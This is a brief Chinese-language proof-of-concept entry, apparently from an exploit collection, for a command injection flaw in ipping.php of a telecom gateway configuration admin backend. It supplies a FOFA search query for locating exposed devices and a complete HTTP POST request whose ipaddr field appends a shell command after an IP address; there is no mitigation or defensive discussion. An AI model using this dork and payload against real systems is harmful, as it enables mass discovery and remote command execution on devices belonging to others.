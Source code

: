 ## 电信网关配置管理后台ipping.php存在命令执行漏洞

## fofa
```
body="img/login_bg3.png" && body="系统登录"
```

## poc
```
POST /manager/ipping.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Connection: close
Cookie: PHPSESSID=pof41mogacm6v38ltsni5t6962
Upgrade-Insecure-Requests: 1

ipaddr=127.0.0.1;ls
```
![image](../../images/5c08273c-6607-4c66-a7f6-638c448aa4cb.png)
